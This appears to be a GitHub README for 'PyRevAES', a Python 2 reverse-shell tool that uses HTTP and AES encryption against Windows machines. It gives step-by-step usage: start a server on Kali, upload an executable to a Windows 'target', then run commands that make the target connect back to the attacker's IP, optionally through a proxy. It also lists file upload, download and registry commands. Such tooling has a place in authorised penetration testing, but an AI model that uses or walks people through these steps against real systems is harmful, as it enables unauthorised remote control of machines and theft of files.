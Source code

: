 <h1 align="center">
	<img width="400" src="pyrevaes.png" alt="PyRevAES">
</h1>

# PyRevAES

A Windows Reverse Shell using HTTP methods with 256-bit AES encryption written in python version 2

If I get some time (and encouragement), I will convert this to a python3 project and probably use some oop.

## Usage:
1. Run server_shell_http.py from kali
2. Upload client_shell_http.exe to Windows target
3. Run the following command on the target for a reverse shell without proxy:
```
C:\client_shell_http.exe <kali_ip> 80
```
4. Run the following command for a reverse shell with proxy:
```
C:\client_shell_http.exe <kali_ip> <kali_port> <proxy_address> <Proxy_port>
```

## EXTRAS:
```client_shell_http.py``` - If you want to create your own executable or run directly from python,  code is available.

```TCP_proxy_online.py``` - TCP proxy from ```https://stackoverflow.com/questions/32468270/tcp-proxy-using-python``` Purely the work of voorloop. You might need to modfy lines 16 and 94 for the forwarded reverseshell/port and the proxy port, respectively.

```get-pip.py``` To install pip for python2 (after deprecation). Reference: https://bootstrap.pypa.io/

## COMMANDS:
upload [filename]
download [filename]     => Need to rename file after download.
winreg                  => displays help message


## Install
1. git clone <repo>
2. ```pip2 install -r requirements.txt```
3. ```python2 server_shell_http.py```
4. choose port ```80``` - Other ports may work, but it works best with port ```80```

## Issues
If there are issues with pip2 installation (due to deprecation) refer to this to get pip for python2 working again. ```https://bootstrap.pypa.io/```
If there are issues with pycrypto, install the following:
```sudo apt install build-essential libssl-dev libffi-dev python-dev```
If still having issues, try running everything using sudo.


## Notes:
- Logo made with courtesy of https://www.freelogodesign.org/
- Most of this code is from here ```https://www.trustedsec.com/2012/03/building-a-native-http-shell-with-aes-in-python/``` and about twenty other different sources.  I apologise if I haven't referenced anyone's code here.
